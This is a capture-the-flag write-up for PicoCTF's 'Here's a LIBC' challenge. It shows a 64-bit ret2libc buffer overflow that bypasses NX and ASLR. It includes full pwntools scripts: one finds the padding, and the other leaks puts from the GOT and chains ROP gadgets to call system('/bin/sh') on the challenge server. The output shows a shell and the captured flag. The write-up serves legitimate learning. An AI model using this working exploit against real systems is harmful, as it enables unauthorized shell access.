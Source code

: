 ```yaml
---
title: Ret2libc 64 bits (NX & ASLR)
description: Exploiting a buffer overflow using ret2libc with ASRL and NX enabled.
---
```


# Ret2libc 64 bits (NX & ASLR)

## Summary

Exploiting a buffer overflow using `ret2libc` with `ASRL` and `NX` enabled.

## Challenge

### Description

!!! note ""
    Challenge : [Here's a LIBC](https://play.picoctf.org/practice/challenge/179) from PicoCTF 2021.

I am once again asking for you to pwn this binary.

- [vuln](https://mercury.picoctf.net/static/58622771a398cdc12767c5caab84fcb9/vuln) [libc.so.6](https://mercury.picoctf.net/static/58622771a398cdc12767c5caab84fcb9/libc.so.6) [Makefile](https://mercury.picoctf.net/static/58622771a398cdc12767c5caab84fcb9/Makefile)
- `nc mercury.picoctf.net 24159`

## Writeup

We do not have access to the source code, however we have the binary and the `libc`.

Let's have a look at the binary :

```
$ pwn checksec vuln
[*] '.../picoctf/Heres_a_LIBC/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./'
```

`NX` is enabled, so we can't run our shellcode on the stack. Also, `ASLR` is enabled on the remote TCP service.

To run the binary, I needed to remove a library with [patchelf](https://github.com/NixOS/patchelf).

```
$ ls
libc.so.6  vuln
$ ldd vuln
        linux-vdso.so.1 (0x00007ffc9eded000)
        libc.so.6 => ./libc.so.6 (0x00007f3b9fe00000)
        /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007f3ba03e0000)
$ ./vuln
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!

$ patchelf --remove-rpath /lib64/ld-linux-x86-64.so.2 vuln
$ ./vuln
WeLcOmE To mY EcHo sErVeR!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAa
^C
```

Let's try to calculate the size of the padding of the buffer overflow. Source code :

```python
#!/usr/bin/env python3
from pwn import process, p64, cyclic, cyclic_find


PROGRAM = "./vuln"

def find_padding_size():
    proc = process(PROGRAM)
    pattern = cyclic(0xFF)

    proc.sendlineafter(b"WeLcOmE To mY EcHo sErVeR!\n", pattern)
    proc.wait()

    core = proc.corefile
    seg_addr = int(f"0x{hex(core.fault_addr)[-8:]}", 16)

    return cyclic_find(seg_addr)


if __name__ == "__main__":
    padding = find_padding_size()
    print("Padding size:", padding)
```

Execution :

```
$ python3 calc_padding.py
[+] Starting local process './vuln': pid 105001
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 105001)
[+] Parsing corefile...: Done
...
Padding size: 136
```

---

To bypass `NX`, we will use a ROPChain. To bypass `ASLR`, we will leak the address of a function (in the GOT) to calculate the base address of `libc` and call the `main` function again to executes our final payload with the right offsets. Source code :

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import remote, p64, u64, ELF


"""
0x0000000000400913: pop rdi; ret;
0x000000000040052e: ret;
"""

PADDING = 136
HOST, PORT = "mercury.picoctf.net", 24159

vuln = ELF("./vuln")
libc = ELF("./libc.so.6")

# Gadgets
pop_rdi  = p64(0x0000000000400913)
ret      = p64(0x000000000040052e)
puts_plt = p64(vuln.plt['puts'])
main_plt = p64(vuln.symbols['main'])
puts_got = p64(vuln.got['puts'])

# Leak puts address inside libc
payload = b"A" * PADDING
payload += pop_rdi
payload += puts_got
payload += puts_plt
payload += main_plt

# Send the first ROP
proc = remote(HOST, PORT)
proc.sendlineafter(b"WeLcOmE To mY EcHo sErVeR!", payload)

# Parse puts address from stdout 
proc.recvline()
proc.recvline()
puts_addr = proc.recvline().strip().ljust(8, b'\x00')
print(f"puts_addr: {puts_addr}")

# Calculate libc base address (offset diff)
libc.address = u64(puts_addr) - libc.symbols['puts']
bin_sh   = p64(next(libc.search(b'/bin/sh')))
system   = p64(libc.symbols['system'])

# Send the second ROP with the right offsets, system('/bin/sh')
payload = b"A" * PADDING
payload += ret # stack alignment, The MOVAPS issue on https://ropemporium.com/guide.html
payload += pop_rdi
payload += bin_sh
payload += system

proc.sendline(payload)
proc.interactive()
```

Execution :

```
$ python3 ret2libc.py
...
puts_addr: b'0Zy\x07\x18\x7f\x00\x00'
[*] Switching to interactive mode
WeLcOmE To mY EcHo sErVeR!
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
$ id
uid=1560(here-s-a-libc_5) gid=1561(here-s-a-libc_5) groups=1561(here-s-a-libc_5)
$ cat flag.txt
picoCTF{1_<3_sm4sh_st4cking_cf205091ad15ab6d}[*] Got EOF while reading in interactive
$
[*] Closed connection to mercury.picoctf.net port 24159
```